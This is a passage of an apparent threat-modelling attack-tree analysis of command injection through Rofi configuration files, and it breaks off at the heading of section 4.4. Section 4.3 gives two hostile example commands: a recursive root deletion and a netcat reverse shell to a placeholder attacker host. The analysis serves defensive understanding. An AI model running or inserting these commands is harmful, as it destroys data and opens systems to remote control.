### 4. Deep Analysis of Attack Tree Path

#### 4.1. Compromise Application via Rofi

* **Description:** The initial stage where the attacker aims to leverage Rofi as an entry point to compromise the application. This implies the application relies on Rofi for some functionality, such as launching applications, executing commands, or providing user interfaces.
* **Attack Vector Details:**  The attacker doesn't directly attack the application initially. Instead, they target the application's dependency on Rofi. This could involve manipulating Rofi's behavior to indirectly affect the application.
* **Prerequisites:**
    * The target application utilizes Rofi for some critical functionality.
    * The attacker has a way to influence Rofi's behavior, specifically its configuration.
* **Impact:**  Successful compromise at this stage sets the stage for further exploitation, potentially leading to unauthorized access or control over the application.

#### 4.2. Exploit Input Handling

* **Description:** This node highlights a vulnerability in how Rofi handles input, specifically within its configuration files. The attacker aims to inject malicious input that Rofi will interpret as commands.
* **Attack Vector Details:** Rofi's configuration files are typically plain text and allow users to customize its behavior. If Rofi doesn't properly sanitize or escape input read from these files, it can be vulnerable to command injection. This could occur in various configuration options that involve executing external commands or scripts.
* **Prerequisites:**
    * Rofi's configuration parsing logic is susceptible to command injection.
    * The attacker has the ability to modify Rofi's configuration files. This could be through:
        * **Local access:** If the attacker has direct access to the system running the application.
        * **Exploiting other vulnerabilities:**  Gaining access through other means and then modifying the configuration.
        * **Social engineering:** Tricking a user into modifying the configuration.
* **Impact:**  Successful exploitation of input handling allows the attacker to execute arbitrary commands with the privileges of the user running Rofi.

#### 4.3. Command Injection via Configuration

* **Description:** This node specifies the type of vulnerability being exploited: command injection. The attacker leverages the ability to insert malicious commands within Rofi's configuration files.
* **Attack Vector Details:**  Certain configuration options in Rofi might allow the execution of shell commands or scripts. If these options directly use user-provided values without proper sanitization, an attacker can inject arbitrary commands. For example, if a configuration option allows specifying a command to run when a specific item is selected, the attacker could inject a command like `rm -rf /` or `nc attacker.com 4444 -e /bin/bash`.
* **Prerequisites:**
    * Identification of vulnerable configuration options within Rofi that execute commands.
    * Ability to write to Rofi's configuration files.
* **Impact:**  Successful command injection allows the attacker to execute arbitrary commands on the system with the privileges of the user running Rofi. This can lead to data breaches, system compromise, and denial of service.

#### 4.4. Critical Node: Inject Malicious Commands in Configuration Files
